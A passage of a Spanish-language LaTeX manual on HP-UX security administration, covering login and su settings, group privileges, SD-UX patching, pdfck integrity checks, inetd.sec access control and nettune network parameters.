de usuarios en el sistema; tenemos en primer lugar {\sc 
abort$\_$login$\_$on$\_$missing$\_$homedir}, que define c\'omo ha de 
comportarse el operativo cuando un usuario se autentica correctamente pero su 
directorio {\it \$HOME} no existe. Si su valor es 0, el acceso se autorizar\'a y
el usuario entrar\'a directamente al directorio {\tt `/'}; si es 1, el {\it 
login} ser\'a rechazado a pesar de que la autenticaci\'on haya sido correcta.La 
segunda directiva de este grupo es {\sc nologin}: si su valor es 1 y el fichero
{\tt /etc/nologin} existe, cuando un usuario diferente del {\tt root} se 
autentique para entrar al sistema se le mostrar\'a el contenido del archivo y
se le cerrar\'a la conexi\'on (lo habitual en todos los Unices); por contra, si
el valor de esta variable es 0, el archivo {\tt /etc/nologin} simplemente ser\'a
ignorado. Finalmente, la directiva {\sc number$\_$of$\_$logins$\_$allowed} 
delimita el n\'umero m\'aximo de conexiones simult\'aneas que los usuarios 
diferentes de {\tt `root'} pueden poseer en el sistema; si su valor es 0, este
n\'umero es ilimitado.\\
\\Vamos a ver por \'ultimo un par de directivas que afectan a la ejecuci\'on 
de la orden {\tt `su'} en el sistema. En primer lugar tenemos {\sc 
su$\_$root$\_$group}, que indica qu\'e grupo de usuarios puede ejecutar la 
orden para convertirse -- tecleando la contrase\~na, evidentemente -- en 
administrador del sistema. Si este par\'ametro no est\'a definido, cualquier
usuario que conozca la clave puede convertirse en {\tt root}, mientras que si
lo est\'a s\'olo los usuarios pertenecientes al grupo indicado pueden hacerlo.\\
\\Aparte del anterior par\'ametro, en HP-UX 11i se introdujo una nueva 
directiva en el fichero {\tt /etc/default/security}; se
trata de {\sc su$\_$default$\_$path}, que marca el valor de la variable {\it
\$PATH} cuando alguien cambia su identificador de usuario mediante {\tt `su'} 
sin la opci\'on {\tt `-'} (esto es, sin emular un {\it login} real).\\
\\Acabamos de ver que en el archivo {\tt /etc/default/security} se pueden
configurar diferentes aspectos relativos a las pol\'{\i}ticas de contrase\~nas a
seguir en un sistema HP-UX; no obstante, algunos de los puntos m\'as importantes
de cualquier pol\'{\i}tica est\'an, como ocurre en Solaris, integrados dentro
de la propia orden {\tt passwd}: entre ellos algunos tan decisivos como la
longitud m\'{\i}nima de una contrase\~na. Un esquema de este tipo resulta algo
pobre actualmente, y como ya dijimos, cualquier Unix moderno deber\'{\i}a 
incluir `de serie' la posibilidad de ofrecer una granularidad m\'as adecuada en
todo lo respectivo a las claves de los usuarios. Sea como sea, el esquema 
seguido en HP-UX es muy similar al de Solaris en cuanto a los requisitos 
m\'{\i}nimos para un {\it password}: al menos seis caracteres, dos de los cuales
han de ser letras y uno num\'erico o especial, diferencias con la contrase\~na
anterior en al menos tres caracteres -- considerando equivalentes a may\'usculas
y min\'usculas para este prop\'osito --, clave diferente del nombre de usuario
y cualquier rotaci\'on del mismo, etc.\\
\\Ya para finalizar este punto, y relacionado tambi\'en con la gesti\'on de 
usuarios en HP-UX (aunque no expl\'{\i}citamente con el acceso de los mismos al 
sistema), es 
necesario hablar brevemente de los privilegios de grupo; este mecanismo, 
introducido en HP-UX 9.0, permite asignar a un grupo ciertos privilegios de
administraci\'on, distribuyendo en cierta forma el `poder' del superusuario y
rompiendo la aproximaci\'on al reparto de privilegios cl\'asico de Unix (todo o
nada). En la tabla \ref{privgrp} se muestran los privilegios de grupo
soportados en HP-UX junto a la versi\'on del operativo en la que fueron 
introducidos (\cite{kn:hpfaq}).\\
\begin{table}
\begin{center}
\begin{tabular}{|c|c|c|}
\hline
Versi\'on & Privilegio & Descripci\'on\\
\hline
\hline
9 & {\sc rtprio} & Especificaci\'on de prioridades de tiempo real\\
\hline
9 & {\sc mlock} & Utilizaci\'on de {\tt plock()}\\
\hline
9 & {\sc chown} & {\it System V} {\tt chown}\\
\hline
9 & {\sc lockrdonly} & Utilizaci\'on de {\tt lockf()}\\
\hline
9 & {\sc setrugid} & Utilizaci\'on de {\tt setuid()} y {\tt setgid()}\\
\hline
10 & {\sc mpctl} & Utilizaci\'on de {\tt mpctl()}\\
\hline
10 & {\sc rtsched} & Utilizaci\'on de {\tt sched$\_$setparam()}\\
\hline
10 & {\sc serialize} & Utilizaci\'on de {\tt serialize()}\\
\hline
11 & {\sc spuctl} & Utilizaci\'on de {\tt spuctl()}\\
\hline
11i & {\sc fssthread} & Utilizaci\'on de {\tt fss()}\\
\hline
11i & {\sc pset} & Utilizaci\'on de {\tt pset$\_\ast$()}\\
\hline
\end{tabular}
\caption{Privilegios de grupo en HP-UX}
\label{privgrp}
\end{center}
\end{table}
\\Para asignar privilegios a un determinado grupo se utiliza la orden {\tt
setprivgrp} desde l\'{\i}nea de comandos, y para que las modificaciones sean
permanentes en el arranque de la m\'aquina se lee el archivo {\tt 
/etc/privgroup} (si existe) desde {\tt /etc/rc} en HP-UX 9.x o de {\tt
/etc/init.d/set$\_$prvgrp} en versiones superiores; en este fichero se indican 
(uno por l\'{\i}nea) los privilegios a otorgar o eliminar a cada grupo:
\begin{quote}
\begin{verbatim}
marta:/# cat /etc/privgroup
-n CHOWN
admins CHOWN
admins SETRUGID
marta:/# 
\end{verbatim}
\end{quote}
En el anterior ejemplo se limita de forma global el permiso para ejecutar {\tt
chown} a todos los usuarios, y a continuaci\'on se habilita ese mismo permiso, 
junto a la capacidad para utilizar {\tt setuid()} y {\tt setgid()}, a los 
miembros del grupo {\tt admins}. Al menos la primera entrada deber\'{\i}a 
encontrarse siempre en HP-UX, ya que por defecto el operativo presenta un 
comportamiento de {\tt chown} basado en {\it System V}, lo que permite que un 
usuario pueda cambiar la propiedad de sus archivos asign\'andolos al resto de 
usuarios -- incluido el {\tt root} --, lo que claramente puede llegar a suponer 
un problema de seguridad; es mucho m\'as recomendable una aproximaci\'on basada
en {\sc bsd}, que limita la ejecuci\'on de {\tt chown} al {\tt root}.\\
\\Como en otros sistemas Unix, cuando en HP-UX un usuario quiere cambiar de
grupo puede ejecutar la orden {\tt newgrp}; sin embargo, se introduce una 
caracter\'{\i}stica adicional: en el fichero {\tt /etc/logingroup}, de formato
similar a {\tt /etc/group} (de hecho puede ser un enlace a este por cuestiones
de simplicidad), se define la lista inicial de grupos a los que un usuario 
pertenece, es decir, aquellos sobre los cuales no tiene que ejecutar {\tt 
`newgrp'} para convertirse en miembro de los mismos. Si este archivo no existe
o est\'a vac\'{\i}o, el usuario ha de ejecutar {\tt `newgrp'} siempre que
quiera acceder a un grupo secundario, y evidentemente conocer la clave de grupo
(como en cualquier Unix, si no est\'a definido un {\it password} para el grupo,
ning\'un usuario puede pertenecer a \'el si no es como grupo primario); en
cualquier caso, la relaci\'on de grupos secudarios para un usuario ha de
definirse en {\tt /etc/logingroup}, ya que si s\'olo lo est\'a en {\tt 
/etc/group} se ignorar\'a y el usuario deber\'a ejecutar {\tt `newgrp'} para 
acceder a los grupos secundarios no definidos.\\
\\La orden {\tt `groups'} nos indicar\'a a qu\'e grupos pertenece de forma
directa -- sin tener que teclear ninguna contrase\~na -- un cierto usuario, 
bas\'andose para ello en la informaci\'on almacenada en {\tt /etc/passwd},
{\tt /etc/group} y {\tt /etc/logingroup}:
\begin{quote}
\begin{verbatim}
marta:/# groups root
adm bin daemon lmadmin lp mail other root sys users
marta:/# 
\end{verbatim}
\end{quote}
\section{El sistema de parcheado}
En los sistemas HP-UX la gesti\'on de {\it software}, tanto paquetes como 
parches, se puede llevar a cabo de una forma sencilla mediante la familia de 
comandos {\tt sw$\ast$}: {\tt swinstall}, {\tt swlist}, {\tt swremove}\ldots; a
este sistema de gesti\'on se le denomina SD-UX ({\it Software Distributor 
HP-UX}), y a pesar de estar basado en una tecnolog\'{\i}a distribuida 
cliente--servidor permite \'unicamente la gesti\'on en la m\'aquina local. Para
obtener m\'as informaci\'on sobre el funcionamiento de SD-UX es recomendable
consultar \cite{kn:hp96}.\\
\\Igual que suced\'{\i}a en AIX, HP-UX posee una terminolog\'{\i}a propia para
referirse a los diferentes objetos del {\it Software Distributor}. El objeto
m\'as peque\~no manejado por SD-UX es el {\bf fileset}, que no es m\'as que un
subconjunto de los diferentes ficheros que forman un {\bf producto}, que a su
vez es un conjunto de {\it filesets} estructurado de cierta forma, en el que se
incluyen {\it scripts} de control para facilitar su manejo como un \'unico 
objeto. HP-UX suele manejar sus parches a nivel de
producto: un parche es un producto que puede estar formado por diferentes {\it
filesets}, aunque lo m\'as normal es que lo est\'e por uno solo; si no fuera 
as\'{\i}, y descarg\'aramos un parche formado por varios {\it filesets}, es 
recomendable instalar todos como un \'unico producto: aunque SD-UX permite 
el manejo de parches a nivel de {\it filesets} individuales, aplicar s\'olo
algunos de ellos puede provocar que la vulnerabilidad que el parche ha de 
solucionar permanezca en el sistema (\cite{kn:hp00b}.\\
\\El siguiente nivel de {\it software} es el {\bf bundle}, un objeto manejado
por SD-UX que agrupa diferentes productos y {\it filesets} relacionados entre
s\'{\i}, consiguiendo de esta forma una gesti\'on de {\it software} m\'as 
c\'omoda: por ejemplo, podemos utilizar {\it bundles} de parches para 
actualizar nuestro sistema, sin necesidad de descargar e instalar cada uno de 
esos parches de forma individual. Por \'ultimo, en SD-UX se introduce el 
concepto de {\bf depot}, un almac\'en de {\it software} en forma de directorio,
cinta, CD-ROM o fichero \'unico, que permite la instalaci\'on local o remota de
sus contenidos: por ejemplo, el directorio {\tt /var/adm/sw/products/} puede
ser considerado un {\it depot}, que a su vez contiene productos en forma de 
subdirectorios, que a su vez contienen {\it filesets} tambi\'en en forma de
subdirectorio, como veremos en el pr\'oximo ejemplo; mediante la orden {\tt 
swcopy} podemos crear nuestros propios {\it depots}, que nos facilitar\'an la 
tarea de gestionar el {\it software} de diferentes sistemas.\\
\\Todo el {\it software} instalado en una m\'aquina queda registrado en 
un cat\'alogo denominado {\sc ipd} ({\it Installed Products Database}), que se 
encuentra en el directorio {\tt /var/adm/sw/products/}. Por ejemplo, para 
obtener un listado de los {\it filesets} instalados en la m\'aquina 
relacionados con el producto {\it accounting}, junto a la versi\'on de los 
mismos podemos utilizar la orden {\tt swlist} o simplemente consultar la {\sc 
ipd} con comandos como {\tt ls} o {\tt cat} (por supuesto, la primera forma es 
la recomendable):
\begin{quote}
\begin{verbatim}
marta:/# swlist -l fileset Accounting
# Initializing...
# Contacting target "marta"...
#
# Target:  marta:/
#

# Accounting                                    B.10.20        Accounting     
  Accounting.ACCOUNTNG                          B.10.20                       
  Accounting.ACCT-ENG-A-MAN                     B.10.20                       
marta:/# cd /var/adm/sw/products/Accounting
marta:/var/adm/sw/products/Accounting/# ls
ACCOUNTNG       ACCT-ENG-A-MAN  pfiles
marta:/var/adm/sw/products/Accounting/# grep ^revision ACC*/INDEX
ACCOUNTNG/INDEX:revision B.10.20
ACCT-ENG-A-MAN/INDEX:revision B.10.20
marta:/var/adm/sw/products/Accounting/# 
\end{verbatim}
\end{quote}
Como hemos dicho, tambi\'en mediante la orden {\tt swlist} podemos obtener un 
listado de los parches aplicados a nuestro sistema HP-UX a nivel de 
aplicaci\'on; de nuevo, podr\'{\i}amos conseguir esta informaci\'on accediendo
directamente a {\tt /var/adm/sw/products/}:
\begin{quote}
\begin{verbatim}
marta:/# swlist -l fileset -a patch_state |grep PH|grep -v ^\#|head -3
  PHCO_10124.PHCO_10124                 
  PHCO_10175.PHCO_10175                 
  PHCO_10272.PHCO_10272                 
marta:/#
\end{verbatim}
\end{quote}
Para obtener los parches aplicados al n\'ucleo del sistema operativo podemos
utilizar la orden {\tt `what'} sobre el {\it kernel} de HP-UX:
\begin{quote}
\begin{verbatim}
marta:/# what /stand/vmunix|grep PH |head -2
         PATCH_10.20: tty_pty.o  1.13.112.5  98/01/13  PHNE_13800
         PATCH_10.20: mux2.o  1.8.112.5  98/01/13  PHNE_13800
marta:/#
\end{verbatim}
\end{quote}
Todos los parches oficiales de HP-UX (tanto a nivel de n\'ucleo como de 
aplicaci\'on) se identifican por cuatro letras que definen el tipo de parche, 
seguidas de un n\'umero y 
separados ambos por un subrayado: por ejemplo, como acabamos de ver, 
el nombre de un parche puede ser {\sc phne$\_$13800}. Actualmente existen 
cuatro tipos de parches definidos por Hewlett--Packard: comandos y 
librer\'{\i}as ({\sc phco}), {\it kernel} ({\sc phkl}), red ({\sc phne}) y 
subsistemas ({\sc phss}); todos los parches comienzan con la denominaci\'on 
com\'un {\sc ph} ({\it patch HP-UX}), y el n\'umero que los identifica es 
\'unico, independientemente del tipo de parche.\\
\\Hewlett--Packard distribuye cada cuatro meses sus parches oficiales en CDROMs 
o cintas, denominados {\it Support Plus}; tambi\'en a trav\'es de Internet 
podemos descargar actualizaciones y parches en la direcci\'on {\tt 
http://www.itrc.hp.com/}, que nos indicar\'a la URL adecuada a la que debemos
dirigirnos en funci\'on de nuestra ubicaci\'on geogr\'afica (Europa, 
Am\'erica\ldots). A diferencia de lo que sucede con otros fabricantes, en el 
caso de Hewlett--Packard es necesario estar registrado para acceder a sus 
parches, pero este registro es completamente gratuito.\\
\\Cuando descargamos un parche para HP-UX obtenemos un \'unico fichero que no 
es m\'as que un {\it shellscript}, y para instalarlo evidentemente lo primero
que tenemos que hacer es ejecutar dicho archivo; esto generar\'a un par de 
ficheros con
el nombre del parche correspondiente y extensiones {\tt .text} y {\tt .depot}
respectivamente\footnote{Recordemos que en Unix el concepto de `extensi\'on' de 
un archivo no exite; realmente, obtendremos dos archivos con nombres 
finalizados en {\tt .text} y {\tt .depot}.}: el primero de ellos contiene 
informaci\'on sobre el parche (nombre, plataformas, instrucciones de 
instalaci\'on\ldots), mientras que el segundo es un archivo con formato TAR que
podremos instalar mediante la orden {\tt swinstall}. Si por ejemplo queremos
instalar el parche {\sc phne$\_$12492} ejecutaremos una orden similar a la 
siguiente:
\begin{quote}
\begin{verbatim}
marta:/# swinstall -x autoreboot=true -x match_target=true \
-s ./PHNE_12492.depot 2>&1 >/dev/null
marta:/#
\end{verbatim}
\end{quote}
La opci\'on que m\'as nos interesa de {\tt swinstall} es sin duda {\tt `-s'},
que especifica la ubicaci\'on del archivo {\tt .depot} en el sistema de 
ficheros; la opci\'on {\tt `-x autoreboot=true'} no indica obligatoriamente un
reinicio del sistema, sino que simplemente lo permite: cada parche de HP-UX 
`sabe' si para instalarse correctamente es necesario reiniciar el operativo 
(nosotros lo podemos saber simplemente leyendo el fichero {\tt .text} que hemos
generado anteriormente), y si el {\it reboot} es necesario con esta opci\'on 
indicamos que se lleve a cabo autom\'aticamente, algo \'util en instalaciones
autom\'aticas pero que puede ser cr\'{\i}tico en algunas ocasiones.\\
\\Una vez instalado el parche correspondiente es recomendable ejecutar {\tt 
swverify}; esta orden verifica que la informaci\'on registrada en la {\sc ipd}
de HP-UX (dependencias, integridad de archivos\ldots) se corresponde con la que 
se encuentra en los ficheros y directorios del sistema. Podemos verificar todos
los registros de {\it software} (productos y parches) mediante el comod\'{\i}n 
{\tt `$\ast$'}, o bien \'unicamente el parche que acabamos de instalar; aparte
de mostrarse en la consola o terminal desde la que se ejecute, el resultado de 
la ejecuci\'on de esta orden se guardar\'a en el fichero de {\it log} 
correspondiente, dentro del directorio {\tt /var/adm/sw/}:
\begin{quote}
\begin{verbatim}
marta:/# swverify PHNE_12492

=======  12/11/01 03:23:34 MET  BEGIN swverify SESSION
         (non-interactive)

       * Session started for user "root@marta".

       * Beginning Selection
       * Target connection succeeded for "marta:/".
       * Software selections:
             PHNE_12492.PHNE_12492,l=/,r=B.10.00.00.AA,\
             a=HP-UX_B.10.20_700/800,v=HP:/
       * Selection succeeded.


       * Beginning Analysis
       * Session selections have been saved in the file
         "/.sw/sessions/swverify.last".
       * The analysis phase succeeded for "marta:/".
       * Verification succeeded.


NOTE:    More information may be found in the agent logfile (location
         is marta:/var/adm/sw/swagent.log).

=======  12/11/01 03:23:40 MET  END swverify SESSION (non-interactive)

marta:/#
\end{verbatim}
\end{quote}
Antes de finalizar este punto es necesario recordar que siempre, antes de
cualquier actualizaci\'on del sistema o de la aplicaci\'on de cualquier tipo de
parche, es {\bf imprescindible} hacer una copia de seguridad completa de todos
los sistemas de ficheros; esto es algo que se recomienda en {\bf todos} los
procedimientos de instalaci\'on de parches oficiales de Hewlett--Packard, y que
nos puede ayudar a devolver al sistema a un estado operativo ante cualquier
m\'{\i}nimo problema durante una actualizaci\'on.
\section{Extensiones de la seguridad}
\subsection{Product Description Files}
HP-UX (tanto en su versi\'on {\it Trusted} como en la habitual) posee un 
interesante mecanismo que nos permite verificar si ciertos ficheros han 
sido o no modificados: se trata de PDF (aqu\'{\i} no significa {\it Portable
Document Format} sino {\it Product Description File}), que no es m\'as que un
repositorio de informaci\'on acerca de todos y cada uno de los archivos que un
determinado {\it fileset} instala en una m\'aquina. Aunque el uso de los PDFs 
est\'a desfasado desde la versi\'on 10.20 del operativo (ha sido 
sustituido por el {\it Software Distributor}), la informaci\'on que contienen es
bastante interesante desde el punto de vista de la seguridad, ya que incluye
caracter\'{\i}sticas como el grupo, el propietario, los permisos, el tama\~no o
un {\it checksum} de cada archivo.\\
\\En el directorio {\tt /system/} de un sistema HP-UX encontramos un 
subdirectorio por cada {\it fileset} instalado en la m\'aquina; dentro de cada 
uno de estos subdirectorios existe -- o ha de existir -- un fichero denominado 
{\tt pdf}, que contiene justamente la informaci\'on de la que estamos hablando:
\begin{quote}
\begin{verbatim}
marta:/system/UX-CORE# pwd
/system/UX-CORE
marta:/system/UX-CORE# ls -l pdf
-r--r--r--   1 bin      bin        36199 Jan 10  1995 pdf
marta:/system/UX-CORE# head pdf
% Product Description File
% UX-CORE fileset, Release 9.05
/bin/alias:bin:bin:-r-xr-xr-x:160:1:70.2:4285122165:
/bin/basename:bin:bin:-r-xr-xr-x:16384:1:70.5:3822935702:
/bin/bg:bin:bin:-r-xr-xr-x:151:1:70.2:735613650:
/bin/cat:bin:bin:-r-xr-xr-x:16384:1:70.2:1679699346:
/bin/cd:bin:bin:-r-xr-xr-x:151:1:70.2:525751009:
/bin/chgrp:bin:bin:-r-xr-xr-x:20480:1:70.2:203825783:
/bin/chmod:bin:bin:-r-xr-xr-x:24576:1:70.6:1826477440:
/bin/chown:bin:bin:-r-xr-xr-x:20480:1:70.2:1796648176:
marta:/system/UX-CORE# 
\end{verbatim}
\end{quote}
Como vemos, cada l\'{\i}nea de este fichero (excepto las que comienzan con el
car\'acter {\tt `\%'}) es la entrada correspondiente a un cierto archivo que
el {\it fileset} instala en la m\'aquina; su formato es el siguiente:
\begin{quote}
-- {\tt pathname}: Ruta absoluta del fichero.\\
-- {\tt owner}: Propietario (nombre o UID) del archivo.\\
-- {\tt group}: Grupo (nombre o GID) al que pertenece.\\
-- {\tt mode}: Tipo y permisos (en formato {\tt `ls -l'}).\\
-- {\tt size}: Tama\~no del fichero en {\it bytes}.\\
-- {\tt links}: N\'umero total de enlaces en el {\it filesystem}.\\
-- {\tt version}: Versi\'on del archivo.\\
-- {\tt checksum}: Comprobaci\'on de errores seg\'un el algoritmo IEEE 802.3 
CRC.\\
-- {\tt linked$\_$to}: Nombres adicionales del fichero (enlaces duros o 
simb\'olicos).
\end{quote}
Para comprobar que los archivos de un determinado {\it fileset} no han sufrido
modificaciones que afecten a alguno de los campos anteriores podemos 
programar un sencillo {\it shellscript} que utilizando la salida de \'ordenes 
como {\tt `ls -l'}, {\tt `what'}, {\tt `ident'} o {\tt `cksum'} compruebe el
resultado de las mismas con la informaci\'on almacenada en el PDF 
correspondiente:
\begin{quote}
\begin{verbatim}
marta:/# grep ^/bin/cat /system/UX-CORE/pdf
/bin/cat:bin:bin:-r-xr-xr-x:16384:1:70.2:1679699346:
marta:/# ls -l /bin/cat
-r-xr-xr-x   1 bin      bin        16384 Jan 10  1995 /bin/cat
marta:/# what /bin/cat
/bin/cat:
         $Revision: 1.1 $
marta:/# cksum /bin/cat
1679699346 16384 /bin/cat 
marta:/# 
\end{verbatim}
\end{quote}
De la misma forma, podemos ejecutar la orden {\tt `pdfck'},  que nos informar\'a
de cualquier cambio detectado en los ficheros de un {\it fileset}:
\begin{quote}
\begin{verbatim}
marta:/# pdfck /system/UX-CORE/pdf
/etc/eisa/HWP0C70.CFG: deleted
/etc/eisa/HWP0C80.CFG: deleted
/etc/eisa/HWP1850.CFG: deleted
/etc/eisa/HWP2051.CFG: deleted
/etc/eisa/HWPC000.CFG: deleted
/etc/eisa/HWPC010.CFG: deleted
/etc/eisa/HWPC051.CFG: deleted
/etc/newconfig/905RelNotes/hpuxsystem: deleted
/etc/newconfig/inittab: size(848 -> 952), checksum(214913737 -> 2198533832)
/usr/lib/nls/POSIX: owner(bin -> root), group(bin -> sys)
marta:/# 
\end{verbatim}
\end{quote}
La aproximaci\'on a los verificadores de integridad que ofrece HP-UX es
interesante, pero tiene tambi\'en importantes carencias; en primer lugar, los
algoritmos de CRC est\'an pensados para realizar una comprobaci\'on de errores
pura, especialmente en el tr\'ansito de datos a trav\'es de una red (de hecho,
el utilizado por los PDFs es el mismo que el definido por el est\'andar IEEE
802.3 para redes {\it Ethernet}), no para detectar cambios en el contenido de
un archivo. As\'{\i}, es factible -- y no dif\'{\i}cil -- que un atacante
consiga modificar sustancialmente un fichero sin afectar a su CRC global, con
lo cual este hecho no ser\'{\i}a detectado; si realmente queremos verificar que
dos archivos son iguales hemos de recurrir a funciones {\it hash} como {\sc
md5}. Por si esto fuera poco, {\tt pdfck} es incapaz de detectar la presencia
de nuevos ficheros en un directorio, con lo que algo tan simple como la 
aparici\'on de un archivo {\it setuidado} en el sistema no ser\'{\i}a notificado
por esta utilidad; incluso ciertos cambios sobre los archivos de los cuales 
s\'{\i} tiene constancia pasan desapercibidos para ella, como la modificaci\'on 
de listas de control de acceso en los ficheros:
\begin{quote}
\begin{verbatim}
marta:/# lsacl /bin/ps
(bin.%,r-x)(%.sys,r-x)(%.%,r-x) /bin/ps
marta:/# chacl "toni.users+rwx" /bin/ps
marta:/# lsacl /bin/ps
(toni.users,rwx)(bin.%,r-x)(%.sys,r-x)(%.%,r-x) /bin/ps
marta:/# 
\end{verbatim}
\end{quote}
Como vemos, la orden anterior est\'a otorgando a un usuario un control total
sobre el archivo {\tt /bin/ps}, con todo lo que esto implica; evidentemente,
si esto lo ha realizado un atacante, estamos ante una violaci\'on muy grave de 
nuestra seguridad. Sin embargo, {\tt pdfck} ejecutado sobre el PDF 
correspondiente no reportar\'{\i}a ninguna anomal\'{\i}a, con lo que la 
intrusi\'o pasar\'{\i}a completamente desapercibida para el administrador.\\
\\A la vista de estos problemas, parece evidente que si necesitamos un 
verificador de integridad `de verdad' no podemos limitarnos a utilizar las
facilidades proporcionadas por los PDFs de HP-UX; no obstante, ya que este
mecanismo viene `de serie' con el sistema, no est\'a de m\'as usarlo, pero sin
basarnos ciegamente en sus resultados. Siempre hemos de tener en cuenta que la
informaci\'on de cada fichero registrada en los archivos {\tt 
/system/$\ast$/pdf}
se almacena igual que se est\'a almacenando el propio archivo, en un cierto 
directorio de la m\'aquina donde evidentemente el administrador puede escribir 
sin poblemas. Por tanto, a nadie se le escapa que si un atacante consigue el 
privilegio suficiente para modificar una herramienta de base (por ejemplo, {\tt 
/bin/ls}) y troyanizarla, no tendr\'a muchos problemas en modificar tambi\'en
el archivo donde se ha guardado la informaci\'on asociada a la misma, de forma 
que limit\'andonos a comparar ambas no nos daremos cuenta de la 
intrusi\'on. As\'{\i}, es una buena idea guardar, nada m\'as instalar el 
sistema, una copia del directorio {\tt /system/}, donde est\'an los PDFs, en una
unidad de s\'olo lectura; cuando lleguemos al tema dedicado a la detecci\'on de
intrusos hablaremos con m\'as detalle de los verificadores de integridad y la
importancia de esa primera copia, sobre un sistema limpio, de toda la 
informaci\'on que posteriormente vamos a verificar.
\subsection{\tt inetd.sec(4)}
Desde hace m\'as de diez a\~nos, HP-UX incorpora en todas sus {\it releases} 
un mecanismo de control de acceso a los servicios que el sistema ofrece a 
trav\'es de {\tt inetd}; se trata de un esquema muy similar al ofrecido por {\it
TCP Wrappers}, esto es, basado en la direcci\'on IP de la m\'aquina o red 
solicitante del servicio, y procesado {\bf antes} de ejecutar el demonio que
va a servir la petici\'on correspondiente. De esta forma, se establece un nivel
de seguridad adicional al ofrecido por cada uno de estos demonios.\\
\\Evidentemente, este esquema basa su configuraci\'on en un determinado archivo;
el equivalente ahora a los ficheros {\tt /etc/hosts.allow} y {\tt 
/etc/hosts.deny} de {\it TCP Wrappers} es {\tt /usr/adm/inetd.sec} (si no 
existe, el sistema funciona de la forma habitual, sin ning\'un nivel de 
protecci\'on adicional). El formato de cada l\'{\i}nea del mismo es muy simple:
\begin{center}
{\it servicio allow$\mid$deny direccion}
\end{center}
La directiva {\it `servicio'} indica el nombre del servicio a proteger tal y 
como aparece en el archivo {\tt /etc/services} (esto es una diferencia con 
respecto a {\it TCP
Wrappers}, que se gu\'{\i}a por el nombre concreto del demonio y no por el del
servicio); {\it `allow'} o {\it `deny'} (opcionales, si no se indica este campo
se asume un {\it `allow'}) definen si vamos a permitir o denegar 
el acceso, respectivamente, y por \'ultimo en el campo {\it `direccion'} podemos
indicar (tambi\'en es un campo opcional) la direcci\'on IP de uno o m\'as {\it 
hosts} o redes, as\'{\i} como los
nombres de los mismos. Si para un mismo servicio existe m\'as de una entrada,
s\'olo se aplica la \'ultima de ellas; aunque a primera vista esto nos pueda 
parecer una limitaci\'on importante, no lo es: si definimos una entrada {\it
`allow'}, a todos los sistemas no contemplados en ella se les negar\'a el 
acceso, si definimos una {\it `deny'} se le permitir\'a a todo el mundo excepto 
a los expl\'{\i}citamente indicados, y si para un servicio no existe una entrada
en el fichero, no se establece ning\'un tipo de control.\\
\\Imaginemos que el contenido de {\tt /usr/adm/inetd.sec} es el siguiente:
\begin{quote}
\begin{verbatim}
marta:/# grep -v ^\# /usr/adm/inetd.sec
finger allow localhost 158.42.* 
ssh allow localhost 158.42.* 192.168.0.*
pop allow
marta:/#
\end{verbatim}
\end{quote}
En este caso lo que estamos haciendo es permitir el acceso al servicio {\tt 
finger} a todas las m\'aquinas cuya direcci\'on comience por {\tt 158.42.},
as\'{\i} como a la m\'aquina local, y
negarlo al resto, permitir acceso a {\tt ssh} adem\'as de a estas a las que 
tengan una direcci\'on {\tt 192.169.0.}, y dejar que cualquier sistema (no 
definimos el tercer campo) pueda consultar nuestro servicio {\sc pop3}
(la entrada mostrada ser\'{\i}a equivalente a un indicar \'unicamente el
nombre del servicio, o a no definir una entrada para el mismo). As\'{\i},
en el momento que un sistema trate de acceder a un servicio para el que no 
tiene autorizaci\'on obtendr\'a una respuesta similar a la ofrecida por {\it
TCP Wrappers} (esto es, el cierre de la conexi\'on):
\begin{quote}
\begin{verbatim}
luisa:~# telnet 158.42.2.1 79  
Trying 158.42.2.1...
Connected to 158.42.2.1.
Escape character is '^]'.
Connection closed by foreign host.
luisa:~#
\end{verbatim}
\end{quote}
Como vemos, se trata de un mecanismo sencillo que, aunque no ofrezca el mismo
nivel de protecci\'on que un buen cortafuegos (nos podemos fijar que la 
conexi\'on se establece y luego se corta, en lugar de denegarse directamente
como har\'{\i}a un {\it firewall}), y aunque no sea tan parametrizable -- ni
conocido -- como {\it TCP Wrappers}, puede ahorrar m\'as de un problema a los
administradores de una m\'aquina HP-UX; y ya que existe, no cuesta nada 
utilizarlo junto a cualquier otra medida de seguridad adicional que se nos
ocurra (recordemos que en el mundo de la seguridad hay muy pocos mecanismos 
excluyentes, casi todos son complementarios). Para obtener m\'as informaci\'on
acerca de este, podemos consultar la p\'agina de manual de {\tt inetd.sec(4)}.
\section{El subsistema de red}
Igual que al hablar de Solaris o AIX hemos hecho referencia a \'ordenes como
como {\tt ndd} o {\tt no}, en HP-UX es obligatorio comentar la orden {\tt 
nettune}, que permite examinar y modificar diferentes par\'ametros del 
subsistema de red del operativo en HP-UX 10.x (en versiones anteriores era
necesario utilizar comandos como {\tt adb}, y en HP-UX 11 se introduce la orden
{\tt ndd}, como veremos m\'as adelante, muy similar a la existente en Solaris); 
por ejemplo, una consulta t\'{\i}pica puede ser la siguiente:
\begin{quote}
\begin{verbatim}
marta:/# /usr/contrib/bin/nettune -l
arp_killcomplete = 1200 default = 1200 min = 60 max = 3600 units = seconds
arp_killincomplete = 600 default = 600 min = 30 max = 3600 units = seconds
arp_unicast = 300 default = 300 min = 60 max = 3600 units = seconds
arp_rebroadcast = 60 default = 60 min = 30 max = 3600 units = seconds
icmp_mask_agent = 0 default = 0 min = 0 max = 1
ip_check_subnet_addr = 1 default = 1 min = 0 max = 1
ip_defaultttl = 255 default = 255 min = 0 max = 255 units = hops
ip_forwarding = 1 default = 1 min = 0 max = 1
ip_intrqmax = 50 default = 50 min = 10 max = 1000 units = entries
pmtu_defaulttime = 20 default = 20 min = 10 max = 32768
tcp_localsubnets = 1 default = 1 min = 0 max = 1
tcp_receive = 32768 default = 32768 min = 256 max = 262144 units = bytes
tcp_send = 32768 default = 32768 min = 256 max = 262144 units = bytes
tcp_defaultttl = 64 default = 64 min = 0 max = 255 units = hops
tcp_keepstart = 7200 default = 7200 min = 5 max = 12000 units = seconds
tcp_keepfreq = 75 default = 75 min = 5 max = 2000 units = seconds
tcp_keepstop = 600 default = 600 min = 10 max = 4000 units = seconds
tcp_maxretrans = 12 default = 12 min = 4 max = 12
tcp_urgent_data_ptr = 0 default = 0 min = 0 max = 1
udp_cksum = 1 default = 1 min = 0 max = 1
udp_defaultttl = 64 default = 64 min = 0 max = 255 units = hops
udp_newbcastenable = 1 default = 1 min = 0 max = 1
udp_pmtu = 0 default = 0 min = 0 max = 1
tcp_pmtu = 1 default = 1 min = 0 max = 1
tcp_random_seq = 0 default = 0 min = 0 max = 2
so_qlimit_max = 4096 default = 4096 min = 1 max = 8192
sb_max = 262144 default = 262144 min = 10240 max = 4294967295
hp_syn_protect = 0 default = 0 min = 0 max = 1
so_qlimit_min = 500 default = 500 min = 0 max = 8192
